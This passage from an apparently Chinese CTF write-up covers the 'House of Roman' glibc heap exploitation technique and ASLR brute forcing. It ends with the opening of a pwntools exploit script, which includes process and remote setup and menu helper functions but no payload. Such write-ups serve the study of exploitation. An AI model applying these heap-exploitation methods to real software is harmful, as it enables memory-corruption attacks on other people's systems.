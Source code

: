 但是这种攻击方式在`ASLR`开启时需要用到爆破，概率比较低为`1/4096`，因此师傅们理解这种攻击方式的思想即可。

作者提供了`github`[链接](https://github.com/romanking98/House-Of-Roman)，其中`new_chall`题目的详细注释的`exp`如下：

```python
from pwn import *
from LibcSearcher import *

filename = './new_chall'
context(log_level='debug')
local = 1
elf = ELF(filename)
# libc = ELF('')

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

choice_words = '3. Free\n'

menu_add = 1
add_index_words = 'index :'
add_size_words = 'size of chunk :'
add_content_words = ''

menu_del = 3
del_index_words = 'Enter index :'

menu_edit = 2
edit_index_words = 'index of chunk :'
edit_size_words = ''
edit_content_words = 'data :'

def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))

def edit(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_edit))
    if edit_index_words:
        sh.sendlineafter(edit_index_words, str(index))
    if edit_size_words:
        sh.sendlineafter(edit_size_words, str(size))
    if edit_content_words:
        sh.sendafter(edit_content_words, content)

def leak_info(name, addr):
    success('{} => {}'.format(name, hex(addr)))

```